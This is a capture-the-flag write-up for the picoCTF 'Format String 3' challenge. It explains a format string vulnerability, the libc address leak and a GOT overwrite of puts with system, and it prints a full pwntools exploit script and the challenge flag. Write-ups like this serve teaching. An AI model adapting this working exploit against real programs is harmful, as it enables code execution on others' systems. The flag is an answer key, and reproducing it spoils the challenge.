


## Format String 3
 

**Description**

This program doesn't contain a win function. How can you win?

**Write-up**

This challenge provides a linux loader, a libc and the binary. When app is executed, it leaks to the user on purpose a pointer to a function in `libc`. 


Analyzing the code, it is a format string vulnerability. It will print the user buffer and then call `puts` with the string `/bin/sh`.


The solution in this case, is to overwrite the GOT entry of `puts` with the address of `system`. This is trivial since a pointer to `setvbuf` is purposefully leaked and ASLR bypassed entirely. This also explains why `libc` is provided, the offsets of different versions are not the same.

Additionally, PIE is disabled so leaking the GOT address of `puts` is trivial. Its address is `0x404018`.


Identified the location of the controlled argument (`%38$llx`) in memory for later use.


I just have to overwrite 2 bytes twice. For that my format string payload has to prepare 2 addresses to the got entry, one to the lower bytes and the other to the next 2.


The exploit I came up with is:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template format-string-3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/home/alex/Downloads/ctfs/curr_ctf/format-string-3')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = '/home/alex/Downloads/ctfs/curr_ctf/' #libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        #return process([exe.path] + argv, *a, **kw)
        return remote("rhea.picoctf.net", 58383)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *main+165
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x3ff000)
# RUNPATH:    b'.'
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

io.recvuntil('libc: ')

# Find `system` addr
ptr_leak = int(io.recv(16), 16)
offset_setbufv = libc.symbols['setvbuf']
libc.address = ptr_leak - offset_setbufv
system_addr = libc.symbols['system']

# Overwrite GOT entry
puts_got_lower = p64(0x404018)
puts_got_higher = p64(0x404018+2)

offset_to_write_1 = system_addr & 0xFFFF
offset_to_write_2 = (system_addr >> 16) & 0xFFFF

payload = b""
if offset_to_write_1 < offset_to_write_2:
    payload += bytes('%{0}x%42$hn.'.format(offset_to_write_1), encoding='utf8')
    payload += bytes('%{0}x%43$hn'.format(offset_to_write_2-offset_to_write_1-1), encoding='utf8')
    payload += b'A' * (32 - len(payload))
    payload += puts_got_lower
    payload += puts_got_higher
else:
    payload += bytes('%{0}x%43$hn'.format(offset_to_write_2-7), encoding='utf8')
    payload += bytes('%{0}x%42$hn.'.format(offset_to_write_1-offset_to_write_2-1), encoding='utf8')
    payload += b'A' * (32 - len(payload))
    payload += puts_got_lower
    payload += puts_got_higher

io.sendline(payload)

print("setvbuf ptr: " + hex(ptr_leak))
print("system address: " + hex(system_addr))
print("Lower 2 bytes: " + hex(offset_to_write_1))
print("Higher 2 bytes: " + hex(offset_to_write_2))


io.interactive()
```

- The exploit does the following:
    - It receives the `setvbuf` pointer
    - calculates libc base address by subtracting from the pointer the `setvbuf` offset in the libc.
    - Calculates `system` address by adding to the libc base address the system offset.
    - Prepares 2 pointers, 1 for the lower 2 bytes and one for the next 2 bytes.
    - It first writes to the lower 2 bytes, since that value is smaller, meaning that I will have to write very few bytes in the upper next 2 bytes.
    - Writes the remaining bytes in the next address.

- There are two notes here:
    - First, im checking which pair is bigger, the lower 2 or the higher 2. This is important because if I write first the bigger, I won't be able to write the correct value in the smaller one, since the program already printed more bytes to stdout than what I need to write.
    - Im padding the payload with an X amount of 'A' to be able to correctly index the argument number with the `GOT` pointer.

At this point, the GOT entry of `puts` should be replaced with a pointer to `system`.


Running the exploit:




**Solution**


Flag: picoCTF{G07_G07?_92325514}


[back](/index)